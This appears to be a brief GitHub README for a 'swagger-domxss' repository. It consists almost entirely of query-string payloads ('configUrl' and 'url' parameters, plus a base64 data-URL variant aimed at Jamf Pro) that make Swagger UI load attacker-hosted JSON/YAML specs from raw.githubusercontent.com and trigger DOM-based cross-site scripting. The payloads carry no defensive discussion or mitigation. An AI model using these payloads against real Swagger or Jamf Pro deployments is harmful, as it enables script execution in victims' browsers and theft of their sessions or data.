 # swagger-domxss

```
?configUrl=https://raw.githubusercontent.com/Phoenix1112/swagger-domxss/main/test.json
```

```
?url=https://raw.githubusercontent.com/Phoenix1112/swagger-domxss/main/test.yaml
```



# Jamf pro swagger xss

```
?configUrl=data:text/html;base64,ewoidXJsIjoiaHR0cHM6Ly9yYXcuZ2l0aHVidXNlcmNvbnRlbnQuY29tL1Bob2VuaXgxMTEyL3N3YWdnZXItZG9teHNzL21haW4vdGVzdC55YW1sIgp9Cg==
```
